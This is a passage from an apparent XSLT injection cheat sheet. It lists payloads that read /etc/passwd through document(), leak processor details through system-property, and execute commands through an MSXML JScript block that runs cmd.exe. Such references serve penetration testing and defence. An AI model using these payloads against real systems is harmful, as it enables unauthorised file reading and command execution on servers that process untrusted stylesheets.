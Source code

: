 ### XSLT 3.0
- Most powerful
- Extended functionality
- More exploitation potential

## Common Attack Vectors

### 1. Access to External Resources

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:copy-of select="document('/etc/passwd')"/>
  </xsl:template>
</xsl:stylesheet>
```

### 2. Information Disclosure

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:value-of select="system-property('xsl:vendor')"/>
    <xsl:text>, </xsl:text>
    <xsl:value-of select="system-property('xsl:vendor-url')"/>
    <xsl:text>, </xsl:text>
    <xsl:value-of select="system-property('xsl:version')"/>
  </xsl:template>
</xsl:stylesheet>
```

### 3. Script Execution (MSXML)

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">

  <msxsl:script language="JScript" implements-prefix="user">
    function xml(nodelist) {
      var r = new ActiveXObject("WScript.Shell");
      r.Run("cmd.exe /c calc.exe");
      return nodelist.nextNode().xml;
    }
  </msxsl:script>

  <xsl:template match="/">
    <xsl:value-of select="user:xml(.)"/>
  </xsl:template>

</xsl:stylesheet>
```
